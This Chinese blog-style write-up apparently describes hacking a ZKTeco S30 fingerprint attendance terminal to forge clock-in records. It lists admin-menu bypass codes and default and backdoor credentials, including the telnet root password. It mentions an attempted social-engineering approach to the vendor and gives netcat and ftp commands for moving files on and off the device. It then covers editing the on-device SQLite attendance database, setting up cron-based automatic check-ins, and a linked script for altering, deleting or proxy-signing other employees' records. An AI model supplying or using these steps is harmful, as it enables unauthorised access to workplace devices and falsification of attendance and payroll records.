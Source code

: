 # ZKTeco中控指纹自动打卡及修改打卡时间


## ZKTeco S30
经过网上查询可知，该中控机可以通过以下方式管理数据

- 机身自带管理功能
- RS232/485
- USB Host/client
- TCP/IP 客户端软件
- Web 3.0
- Telnet(开发人员)

下面来细说这几种方式：

#### 1. 机身自带管理功能
这里根据官方帮助<http://cn.zkteco.com/server01_detail/newsId=146.html>

##### 1.1 黑白屏机器
按菜单键输入9999>>>按“上”键>>>8888>>>再按“上”键，指纹机右上方会显示一个随机的数字，将这个数字记下来求和，并输入一个四位数，首（千）位是７，百位是随机的数和的首位，十位是0，个位是随机的数和的未位。如和是一位的个位也是0，再按“上”键和菜单键即可进入设置界面，这个过程不能太长，太长的话就失效了。进入设置菜单将管理员的权限清除掉即可。

##### 1.2 彩屏机器
彩屏须在1分钟内操作完成，记下机器时间，用计算器算9999-机器显示时间的差的平方，就是密码。例如：目前考勤机时间是22：55，那就是9999-2255=7744，接着算7744的平方，7744*7744=59969536 ，考勤机8888的管理密码就是59969536。按菜单键，在指纹机上输入8888>>>按OK键，输入计算出来的密码 OK。


#### 2. RS232/485 串口线连接
具体方法及参数可以看说明书
默认通讯密码：0 （也就是空密码）

#### 3. USB 连接方式
通过自带管理通过u盘把数据导入或导出。

#### 4. TCP/IP 客户端软件
通过软件来同步导出数据，行政貌似就是这么干的。
对了，官方说明传输数据并没有加密,但是在这动手脚，意义并不大。

#### 5. Web 3.0
给了一个 http 的方式，管理员可以通过web来查询考勤记录，员工貌似也可以登录查看自己的记录。
默认超管账号及密码

    user:administrator;
    password: 123456;

#### telnet
这个方式应该是开发人员用的，根据介绍得知，该机器基于 linux，如果我们拿下这个 telnet ，我们就获得了最高权限，那时候我们想怎么玩就怎么玩了。

______

## 思路
对过以上几种方式的分析，数据是记录在机器里，为了签到，我们只能通过telnet方式

    Trying 192.168.2.201...
    Connected to 192.168.2.201.
    Escape character is '^]'.

    Welcome to Linux (ZMM220) for MIPS
    Kernel 3.0.8 on an MIPS
    (none) login: 

简单的尝试后失败了.

根据<http://lcx.cc/index.asp?i=3568> 和<<http://blog.infobytesec.com/2014/07/perverting-embedded-devices-zksoftware_2920.html>

在评论区中翻到：
>telnet 密码貌似跟出厂时间及机器型号都是有相关的。这个是开发人员设定的。

我动了社会工程学，以公司管理员的身份向售后咨询密码，可惜到目前都没有回复我。

最后用 评论区中的`root solokey`成功进入到系统。

id 显然是 root，剩下的就自由发挥了。

-----

## 打卡及修改打卡时间
进入系统就是一阵乱找，在`/mnt/mtdblock`下找到我们想要的东西

    # ls
    CacheData.dat    data             lib              service
    app              drivers          mgcfg-mips       ssrrealtime.dat
    auto.sh          eerom.txt        miniguires       wav
    commonres        kill.sh          script

`data` 目录下`ZKDB.db`就是我们想要的。

### 1. 数据
#### 1.1 下载与上传
初步思路时，下载 db 文件本地,来打开研究，并修改，然后再上传替换。
下载好说，不是提供了一个web3.0么，把 db 复制到 web 目录下不就 Okay 了嘛。

上传呢，这个系统是个精简版的系统，仅集成了 busybox，命令少的可怜，scp 就不要想了。

不过找了命令，发现支持 ftp，tfpd，nc，所以这个就简单了。

##### ftp

    tcpsvd -vE 0.0.0.0 21 ftpd -w /mnt/mtdblock/

当然你也可以修改` /etc/inetd.conf `

但是这货上传的文件用vi打开后面有个`^M`,很是不舒服。

##### nc

发送端：

    cat log.sh| nc -l -p 6666
    或者nc -l  -p 6666 < log.sh                   # 有些版本不要在 -p

【监听6666端口，等待连接】（设发送端IP为 192.168.2.123 6666）

接收端：

    nc 192.168.2.123 6666 > log.sh

如上面的操作，即可将文件log.sh从发送端传送到接收端，保存为log.sh

##### tftp

这个我没测试，可以通过`/etc/inetd.conf`来启动

### 2. 数据及修改
这个db文件实际上就是 sqlite3，用`sqlitebrowser`打开发现，表的结构还是有点多，我只说关键的这两个表，

* ATT_LOG: 签到数据
* USER_INFO: 用户信息
* fptemplate10: 指纹信息

很幸运的在data目录下又找到`sqlite3_mips` 可执行程序，可以直接操作 db 文件，所以想修改数据简直是轻而易举了。

剩下的就是写个签到脚本了。

### 3. 自动签到
虽然精简但是还是提供了`crontab`这个定时任务，只是执行时会提示错误：

    crontab: chdir(/var/spool/cron/crontabs): No such file or directory

既然不存在，那我们就新建一个。

    mkdir -p /var/spool/cron/crontabs/

然后就可以用了，写个定时脚本，每天定时签到，永不迟到。

----

## 进阶玩法

1. 上传图片及声音文件，告别丑陋的出厂图，让机器更个性．
2. 写个api接口，手机签到.
3. 替换指纹数据，帮别人打卡（入职时一般会录两个指纹）

----

## 代码
github:<https://github.com/linsir/pyscripts/tree/master/zkteco_check_in>

使用方法：把`log.sh`上传到`/mnt/mtdblock/data`下执行即可。

```
Usage: 1. bash log.sh query Name: Query [name]'s user_id.
       2. bash log.sh checkin user_id: Check in for [user_id]'s user.
       3. bash log.sh checkout user_id: Check out for [user_id]'s user.
       4. bash log.sh change: Change checkin time of current month.
       5. bash log.sh change time (2016-06-06T16:03:50): Change checkin [time] of current month with time.
       6. bash log.sh del : Delete the [log_id]'s checkin log.
       7. bash log.sh help ID1 ID2 [fingerid]: Use [ID1] 's finger([fingerid]) help [ID2] to checkin.' 
```

all done,enjoy it .

----
##  参考地址：
1. <http://cn.zkteco.com/service01.html>
2. http://lcx.cc/?i=3568
